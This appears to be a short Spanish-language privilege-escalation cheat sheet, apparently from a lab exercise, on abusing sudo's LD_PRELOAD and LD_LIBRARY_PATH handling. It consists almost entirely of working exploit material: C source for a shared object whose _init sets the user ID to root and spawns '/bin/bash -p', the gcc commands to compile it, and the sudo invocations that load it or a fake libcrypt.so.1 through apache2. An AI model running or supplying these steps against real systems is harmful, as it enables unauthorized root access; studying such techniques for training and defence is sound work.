 Creamos un objeto usando

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Ejecutamos el programa via sudo

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

ejecutamos ldd via apaceh2

```
ldd /usr/sbin/apache2
```

Creamos el objeto con el mism onobmre que la libreria

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Ejecutamos apache via sudo

```
sudo LD_LIBRARY_PATH=/tmp apache2
```
